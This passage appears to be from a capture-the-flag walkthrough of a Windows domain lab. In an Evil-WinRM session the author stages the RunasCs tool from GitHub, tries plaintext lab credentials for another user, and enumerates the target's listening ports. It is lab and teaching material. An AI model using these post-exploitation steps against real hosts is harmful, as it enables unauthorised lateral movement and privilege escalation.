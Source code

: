 Let's go back to `m.harris`'s session and try [RunasCs](https://github.com/antonioCoco/RunasCs)

Prepare RunasCs in Kali:

```sh
VERSION=$(curl -sI https://github.com/antonioCoco/RunasCs/releases/latest | grep location: | cut -d / -f 8 | tr -d '\r' | tr -d 'v')
curl -sLO https://github.com/antonioCoco/RunasCs/releases/download/v$VERSION/RunasCs.zip
unzip RunasCs.zip
mv RunasCs.exe /var/www/html
```

Try to RunasCs with `k.turner`/`MessengerApp@Pass!` (fail):

``` cmd
*Evil-WinRM* PS C:\Users\M.harris\Documents> .\RunasCs.exe k.turner MessengerApp@Pass! whoami
[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect
```

Let's see what ports are the target listening on

```cmd
*Evil-WinRM* PS C:\Users\M.harris\Documents> netstat -ano | findstr LISTENING
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       892
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       892
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       64
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       2368
  TCP    0.0.0.0:14118          0.0.0.0:0              LISTENING       7628
  TCP    0.0.0.0:14119          0.0.0.0:0              LISTENING       7628
  TCP    0.0.0.0:14121          0.0.0.0:0              LISTENING       7628
  TCP    0.0.0.0:14122          0.0.0.0:0              LISTENING       7628
  TCP    0.0.0.0:14123          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:14125          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:14126          0.0.0.0:0              LISTENING       6092
  TCP    0.0.0.0:14127          0.0.0.0:0              LISTENING       7628
  TCP    0.0.0.0:14128          0.0.0.0:0              LISTENING       7628
  TCP    0.0.0.0:14130          0.0.0.0:0              LISTENING       7628
  TCP    0.0.0.0:14406          0.0.0.0:0              LISTENING       7392
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       496
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1272
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1644
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       2256
  TCP    0.0.0.0:49690          0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:49691          0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:49694          0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:49709          0.0.0.0:0              LISTENING       616
  TCP    0.0.0.0:49722          0.0.0.0:0              LISTENING       2168
  TCP    0.0.0.0:49735          0.0.0.0:0              LISTENING       1640
  TCP    0.0.0.0:50024          0.0.0.0:0              LISTENING       2812
⋮
```
